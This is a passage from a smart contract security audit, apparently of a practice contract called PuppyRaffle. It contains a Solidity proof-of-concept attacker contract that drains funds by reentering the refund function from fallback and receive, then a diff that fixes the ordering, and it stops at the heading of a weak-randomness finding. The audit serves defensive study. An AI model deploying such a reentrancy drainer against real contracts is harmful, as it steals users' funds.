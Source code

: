         function attack() external payable {
            address[] memory players = new address[](1);
            players[0] = address(this);
            puppyRaffle.enterRaffle{value: entranceFees}(players);
    
            attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
            puppyRaffle.refund(attackerIndex);
        }
    
        function _stealMoney() internal {
            if (address(puppyRaffle).balance >= entranceFees) {
                puppyRaffle.refund(attackerIndex);
            }
        }
    
        fallback() external payable {
            _stealMoney();
        }
    
        receive() external payable {
            _stealMoney();
        }
    } 
    ```
    

### Mitigation

To prevent this, we should have the `PuppyRaffle::refund` function update the `players` array before making the external call. Additionally, we should move the event emission up as well.

```diff
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(
        playerAddress == msg.sender,
        "PuppyRaffle: Only the player can refund"
    );
    require(
        playerAddress != address(0),
        "PuppyRaffle: Player already refunded, or is not active"
    );
+    players[playerIndex] = address(0);   
+    emit RaffleRefunded(playerAddress);

    payable(msg.sender).sendValue(entranceFee);
-    players[playerIndex] = address(0);
    
-    emit RaffleRefunded(playerAddress);
}
```

---

# [H-2] Weak randomness in `PuppyRaffle:selectWinner` allows users to influence or predict the winner and influence or predict the winning puppy.
